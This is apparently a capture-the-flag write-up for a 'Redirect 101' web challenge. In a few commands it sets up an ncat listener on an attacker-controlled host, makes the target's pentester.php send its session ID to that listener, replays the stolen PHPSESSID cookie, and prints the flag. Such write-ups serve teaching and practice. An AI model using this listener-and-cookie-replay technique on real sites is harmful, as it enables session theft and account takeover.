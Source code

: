 # Redirect 101
Used a previous writeup from a previous year xD (credz to Marco l'Pogo)

### terminal 1
``ssh root@shell.ctf``

### installer ncat parce que nc écoute pas sur ipv6 / install ncat cuz nc doesnt listen on ipv6
``apt install ncat``   
``ncat -lv 12345``

### terminal 2
``curl -G chal5.hackademy.ctf/pentester.php --data-urlencode "url=http://shell.ctf:12345"``

### noter le PHPSESSIONID affiché dans le terminal 1 / write the PHPSESSIONID shown in terminal 1

``curl chal5.hackademy.ctf -b "PHPSESSID=o136t04b24elhtdqgf9pit5fn4"``

``FLAG-mTKmrCUzf82LPdmK7x8yxpcAlo0R3hsF``
